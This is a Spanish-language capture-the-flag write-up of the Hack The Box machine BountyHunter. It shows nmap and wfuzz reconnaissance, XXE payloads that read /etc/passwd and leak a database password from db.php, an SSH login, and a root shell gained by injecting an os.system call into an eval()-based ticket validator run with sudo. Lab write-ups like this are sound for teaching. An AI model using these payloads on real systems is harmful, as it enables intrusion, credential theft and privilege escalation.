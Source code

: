 ```yaml
---
layout: single
title: BountyHunter - Hack The Box
excerpt: "BountyHunter is an easy Linux machine that uses XML external entity injection to read system files. Being able to read a PHP file where credentials are leaked gives the opportunity to get a foothold on system as development user. A message from John mentions a contract with Skytrain Inc and states about a script that validates tickets. Auditing the source code of the python script reveals that it uses the eval function on ticket code, which can be injected, and as the python script can be run as root with sudo by the development user it is possible to get a root shell. "
date: 2024-04-18
classes: wide
header:
  teaser: /assets/images/htb-bounty/bounty.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - XML
  - PHP
  - Script
  - XXE
---
```


![](/assets/images/htb-bounty/bounty.png)

BountyHunter is an easy Linux machine that uses XML external entity injection to read system files. Being able to read a PHP file where credentials are leaked gives the opportunity to get a foothold on system as development user. A message from John mentions a contract with Skytrain Inc and states about a script that validates tickets. Auditing the source code of the python script reveals that it uses the eval function on ticket code, which can be injected, and as the python script can be run as root with sudo by the development user it is possible to get a root shell. 

## Portscan

```
# Nmap 7.94SVN scan initiated Sun Apr 14 18:27:12 2024 as: nmap -p- --open -sS --min-rate 5000 -vvv -n -oG allPorts 10.10.11.100
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.11.100 ()	Status: Up
Host: 10.10.11.100 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///	Ignored State: closed (65533)
# Nmap done at Sun Apr 14 18:27:25 2024 -- 1 IP address (1 host up) scanned in 12.67 seconds

```
Y con esto analizamos los puertos abiertos:
```
# Nmap 7.94SVN scan initiated Sun Apr 14 18:28:12 2024 as: nmap -sCV -p22,80 -oN targeted 10.10.11.100
Nmap scan report for 10.10.11.100
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 14 18:28:23 2024 -- 1 IP address (1 host up) scanned in 10.85 seconds

```
## Analisis Web

Analizando la página vemos que nos puede llevar a un lugar donde poder introducir información y verla reflejada asi que vamos a capturar la petición con el burpsuite.
![](/assets/images/htb-bounty/pag1.png)


Aqui esta lo que tenemos en el burp
![](/assets/images/htb-bounty/burp1.png)

Vemos que tenemos una data en base64 asi que vamos a meterla en el decoder para ver que tenemos, esto nos da una peticion en php. Vamos a intentar hacer un XXE injection en php:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
y donde queramos meterlo ponemos:
<title>&xxe;</title>
```
Lo encodeamos y lo ponemos de tipo url, probamos y nos da la respuesta que queremos asi que podemos probar mas inyecciones.
Antes de todo vamos a buscar un posible directorio de tipo .php
```
sudo wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.11.100/FUZZ.php
000000848:   200        0 L      0 W        0 Ch        "db"   
```

Ahora vamos a probarlo en el XXE injection:
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>hi</cwe>
		<cvss>hi</cvss>
		<reward>hi</reward>
		</bugreport>
```
Esto nos devuelve un codigo en base64 que vamos a decodear en la terminal:
```
 echo "PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=" | base64 -d
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>

```
Vamos a probar la contraseña que nos ha dado entrando en ssh:
```
ssh development@10.10.11.100                                                                   130 ⨯
development@10.10.11.100's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 17 Apr 2024 03:00:45 PM UTC

  System load:           0.0
  Usage of /:            24.3% of 6.83GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             215
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.100
  IPv6 address for eth0: dead:beef::250:56ff:feb9:c391


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Jul 21 12:04:13 2021 from 10.10.14.8
development@bountyhunter:~$
```
 
Ahora ya estamos dentro y podemos acceder a la flag de usuario

## Escalada de privilegios

Ahora toca escalar privilegios para obtener la flag de root. 
Con sudo -l vemos que tenemos permiso para ejecutar un script en python3
```
sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py

```
Vamos a ver el contenido de este script:

```
#Skytrain Inc Ticket Validation System 0.1
#Do not distribute this file.

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for ireggularities.
    code_line = None
    for i,x in enumerate(ticketFile.readlines()):
        if i == 0:
            if not x.startswith("# Skytrain Inc"):
                return False
            continue
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {' '.join(x.strip().split(' ')[3:])}")
            continue

        if x.startswith("__Ticket Code:__"):
            code_line = i+1
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()

```
Con esto analizandolo vemos que tenemos que introducir un archivo de tipo .md necesariamente, y mas requisitos.
Un posible contenido de nuestro archivo podria ser el siguiente:
```
# Skytrain Inc
## Ticket to 
** 11 + 2 
```

Y para intrucir un script malicioso podemos poner:
```
# Skytrain Inc
## Ticket to  
** 11 + 2  __import__('os').system('chmod u+s /bin/bash')
```

Esto si ejecutamos lo siguiente ya lo tendriamos:
```
sudo -u root python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/hola.md
Destination: 
Invalid ticket.
development@bountyhunter:/tmp$ bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# cat root.txt
c647c549364f46534d4d74db2ed2b828

```

